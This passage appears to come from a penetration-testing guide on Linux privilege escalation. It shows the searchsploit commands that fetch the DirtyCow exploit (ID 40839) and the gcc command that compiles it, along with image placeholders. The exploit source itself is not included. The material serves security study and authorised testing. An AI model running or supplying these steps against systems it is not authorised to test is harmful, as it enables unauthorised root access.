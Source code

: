 **Linux**

* Download the DirtyCow exploit or use `searchsploit`

```bash
searchsploit Dirty Cow
searchsploit -m 40839
```

<figure><img src="../../../../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

* Compile the `C` exploit
  * check for comments in the code regarding the compilation commands to compile it successfully

```bash
# Compile with
gcc -pthread 40839.c -o dirty_exploit -lcrypt
```

<figure><img src="../../../../.gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>